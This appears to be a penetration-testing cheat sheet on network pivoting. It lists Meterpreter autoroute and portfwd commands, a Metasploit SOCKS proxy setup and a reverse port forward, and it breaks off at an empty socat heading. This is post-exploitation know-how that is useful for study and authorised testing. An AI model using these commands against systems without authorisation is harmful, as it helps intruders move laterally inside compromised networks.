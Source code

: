 (Or from Meterpreter session)
```shell
meterpreter > run autoroute -s 172.16.5.0/23
```

Listing Active Routes
```shell
meterpreter > run autoroute -p
```

Configuring MSF's SOCKS Proxy

```shell
msf6 > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
```

Connect with proxychains



## Local relay

Creating Local TCP Relay
```shell
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

-l 3300: local port
-p 3389: remote port
-r: remote host

Now, if we execute xfreerdp on our localhost:3300, we will be able to create a remote desktop session.

## Reverse Port Forwarding

```shell
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```

-R: Reverse Port Forwarding
-l 8081: local port
-p 1234: pivot host port
-L: local IP

# Socat
